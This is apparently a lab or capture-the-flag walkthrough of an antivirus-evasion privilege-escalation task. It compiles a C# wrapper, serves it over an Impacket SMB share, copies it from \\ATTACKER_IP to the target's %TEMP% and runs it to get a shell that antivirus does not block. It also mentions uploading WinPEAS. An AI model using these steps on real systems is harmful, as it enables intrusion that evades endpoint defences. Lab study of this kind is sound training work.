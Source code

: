 **Bonus Question (optional):** Try to get a copy of WinPEAS up to the target (either the obfuscated executable file, or the batch variant) and run it. You will see that there are many more potential vulnerabilities on this target -- mainly due to patches that haven't been installed.

    No answer needed


## Task 43  AV Evasion Privilege Escalation

**Install Mono on kali**

    apt install mono-devel

Create a file `Wrapper.cs`

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649087993710_image.png)


compile with `msc`

    mcs Wrapper.cs
![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649088302371_image.png)


transfer to target:

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649088362681_image.png)


Using Impacket setup smb share

    sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword

From target connect to SMB Share

    net use \\10.50.91.32\share /USER:USER s3cureP@ssword

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649088533849_image.png)


move wrapper to location of smb share and copy to target

    copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.ex

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649088699466_image.png)


delete share

    net use \\10.50.91.32\share /del

Test Wrapper.exe

    "%TEMP%\wrapper-exec.exe"

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649088879939_image.png)


functions correctly and returns a shell without being disabled by Antivirus.
